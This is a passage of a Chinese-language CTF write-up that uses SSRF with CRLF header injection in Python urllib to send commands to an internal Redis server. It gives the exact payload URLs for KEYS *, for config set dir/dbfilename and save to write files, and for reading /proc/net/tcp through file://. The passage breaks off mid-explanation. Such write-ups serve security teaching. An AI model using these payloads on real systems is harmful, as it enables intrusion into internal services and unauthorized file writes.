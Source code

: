 可见已经成功的完整控制了url请求中的一行（payload那行），这样的话我们就可以把这条请求发给redis服务的端口，除了payload的错误指令虽然不会执行成功，但是并不会干扰正确的指令执行。

## 控制redis

首先通过读取文件：file:///proc/net/tcp，能读到这个地址，0100007F:18EB，0x18EB为6379，即为redis的默认端口。

尝试，利用KEYS *命令获得所有key：

```
url=http://183.172.25.54:6379?%0d%0aKEYS%20*%0d%0apadding
```

用服务器测试payload是这样的

```
GET /?
KEYS *
padding HTTP/1.1
Accept-Encoding: identity
Host: 183.172.25.54:6379
User-Agent: Python-urllib/3.7
Connection: close
```

修改地址为127.0.0.1，攻击web服务器本身

```
url=http://127.0.0.1:6379?%0d%0aKEYS%20*%0d%0apadding
```

但是发现返回了一个$-1，可能只有第一条的回显，也可能是只指执行了第一条GET /?，这条肯定失败。那么如何测试是否控制redis成功呢？这里采用利用redis的备份命令去写一个文件，然后再去利用ssrf处的file协议读取，如果读取成功则说明控制成功，redis命令如下：

```bash
config set dir /tmp
config set dbfilename xuanxuan
save
```

构造成头注入的url格式如下：

url=http://127.0.0.1:6379?%0d%0aconfig%20set%20dir%20/tmp%0d%0aconfig%20set%20dbfilename%20xuanxuan%0d%0asave%0d%0apadding

然后利用file协议访问：

url=file:///tmp/xuanxuan

返回为：

'utf-8' codec can't decode byte 0xfa in position 9: invalid start byte

说明文件成功写入，只是因为编码问题不可读取。虽然不能读到，但是至少证明了控制redis成功！

## flask-session的redis存储

因为编码问题，拿不到备份的数据库，所以自己本地搭了一下这个环境。因为题目环境是python3(从http的返回头可以看出)，我这里用的是python2，所以精简了一下代码，然后把session这个库换成了flask_session（猜的，我也不知道库名这玩意去哪查，也许是pip search），然后安装如下库：
